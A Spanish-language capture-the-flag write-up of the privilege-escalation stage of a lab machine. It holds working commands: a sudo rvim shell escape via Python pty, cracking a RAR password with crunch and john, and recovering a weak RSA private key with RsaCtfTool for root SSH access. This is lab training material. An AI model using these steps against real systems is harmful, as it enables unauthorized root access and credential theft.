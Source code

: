 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podriamos ejecutar el `/usr/bin/rvim` del fichero `/var/www/html/jailuser/dev/jail.c` como el usuario adm sin proporcionar contraseña.

```bash
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c

:!/bin/sh
#Output 
No se permite orden de consola en rvim

:set shell = /bin/bash
:shell
```

Aqui vemos que no podemos ejecutar comandos pero lo bueno es que rvim permite ejecutar codigo en python

```bash
:py import pty;pty.spawn("/bin/bash")
whoami 
#Output
adm
```

Aqui vemos que estamos en el directorio `/var/adm`

```bash
ls -la
cd .keys
ls -la
cat note.txt
```

Vemos un mensaje del Administrator a frank diciendole que su contraseña para encryptar cosas tiene que ser sur segundo nombre seguido de 4 digitos y un simbolo.

```bash
cd .local
ls -la
cat .frank
#Output
Szszsz! Mlylwb droo tfvhh nb mvd kzhhdliw! Lmob z uvd ofxpb hlfoh szev Vhxzkvw uiln Zoxzgiza zorev orpv R wrw!!!
```

Lanzamos la web de [quipqiup](https://www.quipqiup.com/) y copiamos el mensaje y nos lo traduce por 
**Hahaha! Nobody will guess my new password! Only a few lucky souls have Escaped from Alcatraz alive like I did!!!**

Tambien hay un `keys.rar`.

Lo codificamos en base64 y nos lo tranferimos a nuestra maquina de atacante.

```bash
base64 -w 0 keys.rar; echo
```

y desde la maquina de atacante no copiamos el base64 y lo decodificamos

```bash
echo "hash de base64" | base64 -d > keys.rar
unrar x keys.rar
```

Aqui nos pide una contraseña para unrarear el `keys.rar` y buscando por internet Alcatraz Escape vemos que un Frank Morris se escapo de Alcatraz en 1962.
Vamos a tirar de la utilidad de crunch para crackear la contraseña.

```bash
crunch 11 11 -t Morris1962^ > passwords
rar2john keys.rar > hash
john --wordlist=passwords hash
```

Encontramos la contraseña `Morris1962!`

```bash
unrar x keys.rar
Password: Morris1962!
mv rootauthorizedsshkey.pub id_rsa.pub
cat id_rsa.pub
```

aqui vemos la key publica del usuario root, pero no podemos hacer gran cosa con la key publica. Como no parece muy grande, intentamos ver si podemos computar la llave
privada des esta key.

```python
python3

from Crypto.PublicKey import RSA
f = open ("id_rsa.pub", "r")
key = RSA.importKey(f.read())
print(key.n)
print(key.p)
print(key.q)
print(key.e)
```

Aqui como `key.n` es demasiado grande, no a sido posible computar `key.p` o `key.q` que nos ubiera permitido intentar generar una private key.

Miramos si podemos hacerlo desde [factordb](http://factordb.com/) pero es lo mismo. Pero existen webs para los ctf como [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
que podemos usar.

```bash
git clone https://github.com/Ganapati/RsaCtfTool
cd RsaCtfTool
python3 RsaCtfTool.py --publickey id_rsa.pub --private
```

Esperamos un poco y podemos ver la id_rsa. Lo copiamos en un ficher id_rsa y nos conectamos por ssh.

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.34
```

Ya somos root y podemos leer la flag.
